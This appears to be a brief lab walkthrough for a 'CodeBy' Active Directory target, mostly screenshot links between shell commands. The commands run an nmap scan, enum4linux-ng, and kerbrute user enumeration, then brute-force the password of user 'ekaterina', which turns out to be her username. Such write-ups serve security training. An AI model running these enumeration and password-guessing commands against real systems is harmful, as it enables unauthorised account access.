 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c16212f1-d41a-4d2b-a75a-691ecc0b5fe8)
```
nmap -p- 192.168.2.6 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7b61cca-0808-4a02-ab7c-560608ea7f29)
```
enum4linux-ng 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd453887-4dea-4225-9bde-d773b70e44ad)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/941e6f33-2a43-40df-bdf1-511c56f6a494)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8035c75c-d20f-4708-83b9-df86047e220a)
```
enum4linux-ng 192.168.2.6 -u 'ekaterina' -p 'ekaterina'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/24d96388-7794-41b7-9e51-8470c4dec474)


